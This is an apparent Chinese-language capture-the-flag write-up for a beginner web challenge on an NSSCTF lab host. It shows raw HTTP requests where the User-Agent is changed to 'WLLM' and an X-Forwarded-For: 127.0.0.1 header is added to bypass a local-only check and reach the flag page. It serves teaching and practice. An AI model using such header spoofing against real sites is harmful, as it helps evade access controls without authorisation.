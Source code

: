 打開http://node2.anna.nssctf.cn:xxxxx/hello.php ->`Please use 'WLLM' browser!`
********
用burpsuite改http的get請求
```http
GET /a.php HTTP/1.1
Host: (http://node2.anna.nssctf.cn:xxxxx/hello.php)
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```
把User-Agent:改為WLLM -> `User-Agent:WLLM`
##############
respone得到location a.php 
```http
HTTP/1.1 302 Found
Date: Thu, 22 Jun 2023 03:45:07 GMT
Server: Apache/2.4.25 (Debian)
X-Powered-By: PHP/5.6.40
Location: ./a.php
Content-Length: 7
Connection: close
Content-Type: text/html; charset=UTF-8

success
```
去http://node2.anna.nssctf.cn:xxxxx/a.php  -> `You can only read this at local!Your address xxx.xxx.xx.186` 

繼續用brupsuite 把ip改為local -> `X-Forwarded-For:127.0.0.1`

```http
GET /a.php HTTP/1.1
Host: node1.anna.nssctf.cn:xxxxxx
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
X-Forwarded-For:127.0.0.1

```
respone出了location `secretttt.php` ->去 http://node2.anna.nssctf.cn:xxxxx/secretttt.php 拿flag

|知識點： ||
|------|----------|
|User-Agent：|使用的瀏覽器|
|X-Forwarded-For|改ip地址|
|127.0.0.1|local地址|
